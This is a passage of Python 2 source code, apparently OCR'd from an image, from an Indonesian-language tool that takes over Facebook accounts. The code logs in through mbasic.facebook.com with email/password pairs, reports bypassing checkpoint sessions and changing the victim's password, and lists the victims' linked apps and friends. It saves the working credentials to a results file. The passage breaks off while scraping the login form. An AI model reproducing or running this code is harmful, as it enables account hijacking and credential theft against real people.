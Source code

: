 								apk_dev.append(p+"\n    |_"+k+str(c)+" "+h+apk)
							else:
								apk_dev.append(p+"\n    \\_"+k+str(c)+" "+h+apk)

							c+=1
						except:
							pass
			except:
				pass

			if len(apk_dev) == 1:
				apk_dev.append("\n      "+k+"Tidak ada Aplikasi yg Terkait..")
	###################################################
		except:
			jumlah_teman = ""
			jm_teman_ = ""
			pass
		data_ = data.replace(san_dev, pw_new_)
		if len(tap_yes) != 0:
			data = h+"\r{"+a+"Yes"+h+"}"+p+" {:<15}\033[92;1m | \033[92;1m{}   ".format(eml_dev,san_dev)
			data_ = data.replace(san_dev, pw_new_)
			if len(tampil_ttl) != 0:
				print h+"\r{"+p+"Suc"+h+"}"+p+" Sukses Melewati"+h+" Sesi TTL >>> \n"+h+"{"+k+">/<"+h+"} Sukses Mengganti Sandi.. "+p+">_< Log Di Mbasic \n"+data_+"\n"+jumlah_teman+batas
			else:
				print h+"\r{"+k+">/<"+h+"} Sukses Mengganti Sandi,, "+p+">_< Log Di Mbasic \n"+data_+"\n"+jumlah_teman+"".join(apk_dev)+"\n"+batas
			if "Nul" in jumlah_teman:
				jm_teman_ = ""
			with open("hasil_ok.txt", "a") as hasil:
				hasil.write(data_+p+jm_teman_+"\n")
			del hasil_cp[0]
			tampil_ttl = []
		else:
			if len(tampil_ttl) != 0:
				print h+"\r{"+p+"Suc"+h+"}"+p+" Sukses Melewati"+h+" Sesi TTL   \n"+h+"{"+k+">/<"+h+"} Sukses Mengganti Sandi--> "+p+">_< Log Di Mbasic \n"+data_+"\n"+jumlah_teman+batas
			else:
				print h+"\r{"+k+">/<"+h+"} Sukses Mengganti Sandi-- "+p+">_< Log Di Mbasic \n"+data_+"\n"+jumlah_teman+"".join(apk_dev)+"\n"+batas
			if "Nul" in jumlah_teman:
				jm_teman_ = ""
			with open("hasil_ok.txt", "a") as hasil:
				hasil.write(data_+p+jm_teman_+"\n")
			hasil_ok.append(data_)
			del hasil_cp[0]
			tampil_ttl = []

	except:
		pass

def cek_dev(eml_dev, san_dev, data):
	global ua_hp, ganti_pw, tampil_ttl
	try:
		iqbal = eml_dev
		eml_dev = eml_dev.replace(">>>", "")
		url = "https://mbasic.facebook.com/login"
		with requests.Session() as ses_dev:
			halaman = ses_dev.get(url).content
			sop = BeautifulSoup(halaman, "html.parser")
			form = sop.find("form", id="login_form")
			url_post  = form["action"]
			payload = {}
			for dev in form:
				input = dev